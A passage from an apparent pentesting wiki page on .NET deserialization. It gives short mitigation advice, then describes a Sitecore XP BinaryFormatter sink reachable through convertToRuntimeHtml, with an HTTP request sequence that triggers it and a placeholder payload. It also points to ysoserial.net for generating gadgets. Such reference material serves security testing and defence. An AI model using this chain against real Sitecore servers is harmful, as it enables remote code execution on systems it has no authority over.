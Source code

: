 ```
* Where possible migrate to **`System.Text.Json`** or **`DataContractJsonSerializer`** with whitelist-based converters.
* Block dangerous WPF assemblies (`PresentationFramework`, `System.Workflow.*`) from being loaded in web processes that should never need them.

## Real‑world sink: Sitecore convertToRuntimeHtml → BinaryFormatter

A practical .NET sink reachable in authenticated Sitecore XP Content Editor flows:

- Sink API: `Sitecore.Convert.Base64ToObject(string)` wraps `new BinaryFormatter().Deserialize(...)`.
- Trigger path: pipeline `convertToRuntimeHtml` → `ConvertWebControls`, which searches for a sibling element with `id="{iframeId}_inner"` and reads a `value` attribute that is treated as base64‐encoded serialized data. The result is cast to string and inserted into the HTML.

Minimal end‑to‑end (authenticated):

```
// Load HTML into EditHtml session
POST /sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.EditHtml.aspx
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=edithtml:fix&...&ctl00$ctl00$ctl05$Html=
<html>
  [[poc|poc]]

  
</html>

// Server returns a handle; visiting FixHtml.aspx?hdl=... triggers deserialization
GET /sitecore/shell/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.FixHtml.aspx?hdl=...
```
```
- Gadget: any BinaryFormatter chain returning a string (side‑effects run during deserialization). See YSoNet/ysoserial.net to generate payloads.

For a full chain that starts pre‑auth with HTML cache poisoning in Sitecore and leads to this sink:

[[../../network-services-pentesting/pentesting-web/sitecore/README.md]]

## References
- [[https://github.com/irsdl/ysonet|YSoNet – .NET Deserialization Payload Generator]]
- [[https://github.com/pwntester/ysoserial.net|ysoserial.net – original PoC tool]]
- [[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-8565|Microsoft – CVE-2017-8565]]
- [[https://labs.watchtowr.com/cache-me-if-you-can-sitecore-experience-platform-cache-poisoning-to-rce/|watchTowr Labs – Sitecore XP cache poisoning → RCE]]

